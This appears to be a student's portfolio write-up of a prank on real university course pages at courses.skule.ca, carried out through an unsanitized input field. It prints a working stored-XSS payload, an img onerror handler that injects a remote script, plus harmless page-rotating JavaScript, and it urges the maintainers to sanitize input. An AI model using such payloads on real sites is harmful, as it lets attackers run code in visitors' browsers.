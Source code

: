 ```yaml
---
layout: default
title: Skule Security Sillyness
permalink: /evaluations/skulecourses/index.html
---
```

My room mate [Zhuowei](http://zhuoweizhang.net) and I explored how secure [Skule's (U of T Engineering) courses page](http://courses.skule.ca) is,  
since it is host to supposed past exams that most U of T students download without a second thought.  

This was done mostly for fun and curiosity, with no malicious intent; **preserving the pages' usability was a primary concern**.  

The pages that were pranked include: [CSC180](http://courses.skule.ca/course/?q=CSC180H1) | [ESC103](http://courses.skule.ca/course/?q=ESC103H1) | [PHY180](http://courses.skule.ca/course/?q=PHY180H1)  
In case those pages were taken down, you can see the scripts in action: [Sample ESC103](esc103.html) | [Sample PHY180](phy180.html)  

Message to all readers and possibly maintainers of Skule:  
Please sanitize input boxes before injecting content into the page; it's too easy for someone to insert an \<a\> tag redirecting to a malicious site!  


**UPDATE (Dec 22, 2013)**: Fortunately Skule fixed this exploit! You can still check out the effect from the sample pages.  

## Injecting Code (the clever part)
--------------------------------
Before altering the actual course pages, an illegitimate course was created to allow prototyping.  
Skule's search cannot find the course, but direct access through URL allows access to upload and view.  

The first page to be "improved" was CSC180, which had an iframe element injected through the "Display As" field.  
Apparently **no sanitation of inputs is done...**  

<div class="frames">
<img src="dirtyinputs.png">
<p>They protect against spam... But what of dirty injections!?!</p>
</div>

The code for the CSC180 page was written by Zhuowei while I wrote the code for the ESC103 page.  
The PHY180 page's GravityScript was written by Google and we simply embedded it into the page using the method below.  

The embedding for the CSC180 page was trivial since no scripting was required,  
but adding a script for the ESC103 and PHY180 pages were much more difficult.  

Just adding a \<script\> element didn't work.   
`<script src="some pastebin url"> </script>` 
After exhausting the possibilities by splitting the string up and concatenating them like `"<scr" + "ipt>"` and escaping the characters like  
`&quot;&lt;scr&quot; + &quot;ipt&gt;&quot;` we determined that the input ate script tags, apparently.  

Our workaround was to use an impossible to load \<img\> element that points to our script with its onerror attribute.
`<img onerror="a=document.createElement(&quot;script&quot;);a.src=&quot;url to our code&quot;;document.body.appendChild(a)" src="http://localhost:1">`  

It will always load my script because http://localhost:1 as an image can never load!

## Javascript (the dumb part)
-------------------------
I took this as an opportunity to get familiar with Javascript, seeing as I recently learned HTML and CSS for this portfolio.  
Gaining proficiency in JS will complete my skill set as a web developer, which will be widely useful since the web is becoming a larger distributor of applications.  
Web apps are robust in being 100% cross-platform, requiring just a browser to function on any OS and device, compatible with my philosophy for robustness.  

The idea was to create an effect that was immediately noticeable yet is easy to turn off to preserve usability.  
Seeing as this was our linear algebra course, I went with rotating the page, which is a linear transformation :D.  
A large button was placed in the centre of the page to make it easy for people to return the page to normal since its location will stay still.
<pre><code>var timer = setInterval(transform,50);
var degreez = 0;
var allSet = false;
var bellybutton;
function transform(){
	if (!allSet) {
		var transOrigin = "50% 50%";
		document.body.parentElement.style.height = "100%";
		document.body.style.minHeight = "100%";
		document.body.style.transformOrigin = transOrigin;
		document.body.style.webkitTransformOrigin = transOrigin;
		document.body.style.mozTransformOrigin = transOrigin;
		bellybutton = document.createElement("button");
		bellybutton.innerHTML = "CLICK TO STOP PUKING";
		bellybutton.style.position = "absolute";
		bellybutton.style.left = "45%";
		bellybutton.style.top =  "45%";
		bellybutton.style.width = "10%";
		bellybutton.style.height =  "10%";
		document.body.appendChild(bellybutton);
		bellybutton.onclick = stoppuking;
		allSet = true;
	}
	var transString = "rotate(" + degreez + "deg)";
	document.body.style.transform = transString;
	document.body.style.webkitTransform = transString;
	document.body.style.mozTransform = transString;
	degreez += 1;
}
function stoppuking(){
	clearInterval(timer);
	var transString = "";
	document.body.style.transform = transString;
	document.body.style.webkitTransform = transString;
	document.body.style.mozTransform = transString;
	document.body.removeChild(bellybutton);
}
</code></pre>

This code was designed to work on all browsers and devices (webkit, moz, and unnamed),  
and a button was chosen because it can be clicked on all devices, whereas some other mechanisms  
such as onhover aren't mobile compatible.  

Lastly, I'll leave how we changed the years to an arbitrary number as an anagram, decode it if you can:  
a cad ed retelevise fill unlit  (It is in English, has 1 verb, 1 noun, and 3 adjectives)

## Gains from Experience
---------------------------
- Javascript experience and interest in web development
- Appreciation of sanitizing inputs
- Knowledge of this issue to Skule maintainers that they may fix it
- Fun :D
